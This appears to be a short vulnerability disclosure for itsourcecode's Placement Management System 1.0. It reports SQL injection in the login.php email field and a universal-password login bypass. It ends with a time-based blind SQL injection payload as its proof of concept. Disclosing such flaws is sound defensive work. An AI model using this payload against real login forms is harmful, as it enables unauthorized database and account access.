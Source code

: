 # Vendor

itsourcecode

# Product

Placement Management System

# version

1.0

Download Source Code: https://itsourcecode.com/wp-content/uploads/2021/04/Placement-Management-System-Project-In-PHP-Source-Code.zip

# Description

In the login.php file, the email field is not properly sanitized, which may lead to SQL injection vulnerabilities. Additionally, as long as there is any data in the users table of the database, it is possible to log in using a universal password.
<img width="666" alt="image" src="https://github.com/user-attachments/assets/e7249ef6-c1a3-4397-b1d2-468cba686414">
<img width="820" alt="image" src="https://github.com/user-attachments/assets/03e835ea-a664-4d50-8c3c-9f610049866e">

# Poc
```
Parameter: email (POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: email=admin@gmail.com#' AND (SELECT 3451 FROM (SELECT(SLEEP(5)))zIEe) AND 'NilV'='NilV&pass=123
```
